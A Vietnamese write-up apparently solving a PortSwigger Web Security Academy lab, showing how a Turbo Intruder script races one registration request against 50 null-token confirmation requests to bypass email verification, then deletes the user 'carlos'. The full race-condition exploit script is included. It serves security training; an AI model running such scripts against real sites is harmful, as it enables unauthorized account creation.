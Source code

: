 Để giải quyết thì sử dụng Extension Turbo Intruder với script `race-single-packet-attack.py`

Sau đó modify script như sau

![image](https://hackmd.io/_uploads/ByOrzdrC1l.png)

Script này sẽ tự động Register với email `@ginandjuiceshop.net` ->Gửi 50 request Confirm với null token. Việc thực hiện nhiều reuqest cùng 1 lần sẽ tăng cơ hội thành công.

Lưu ý là vị trí payload sẽ đặt ở username. Do không thể đăng kí trùng username kể cả chưa thực hiện đăng kí thành công. Sau khi gửi 50 req thì attempt sẽ tăng lên -> Username tăng dần: User0 -> User1 -> User2...

Ta phải thay đổi username liên tục sau mỗi lần register vì mặc dù server sẽ kiểm tra username này liệu đã được đăng kí hay chưa. Còn tham số mail chỉ chặn nếu đã có 1 tài khoản đăng kí thành công bằng mail này.

Trong lần thử thứ 5 với `username=us3r5`, payload đã thành công bypass để đăng kí user mới

![image](https://hackmd.io/_uploads/B19aXOBRJx.png)

Đăng nhập với username và password đã biết trước đó -> Xóa `carlos` -> Hoàn thành bài lab.

:::spoiler Payload
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    # replace your `phpsessionid` session cookie in here
    confirmTokenRequest = '''POST /confirm?token[]= HTTP/2
Host: 0a0b0044042c91ec806d21c1002800ac.web-security-academy.net
Cookie: phpsessionid=GkmisK23OpSUSLFENArpAfLco8LQOwUm
Content-Length: 0

'''
    MIN_ATTEMPT = 1
    MAX_ATTEMPT = 20
    for usernamePrefix in range(MIN_ATTEMPT, MAX_ATTEMPT):
        currentQueue = 'queue' + str(usernamePrefix)
        # prepare 1 registration request
        engine.queue(target.req, str(usernamePrefix), gate=currentQueue)

        # prepare x number of confirm token requests
        CONFIRM_REQUEST_NUMBER = 50
        for confirmRequest in range(CONFIRM_REQUEST_NUMBER):
            engine.queue(confirmTokenRequest, gate=currentQueue)

        # send all prepared requests at the same time
        engine.openGate(currentQueue)

def handleResponse(req, interesting):
    table.add(req)
```
:::

> Lưu ý phải chạy đi chạy lại payload nhiều lần mới thành công

![image](https://hackmd.io/_uploads/rJO6C_SR1x.png)
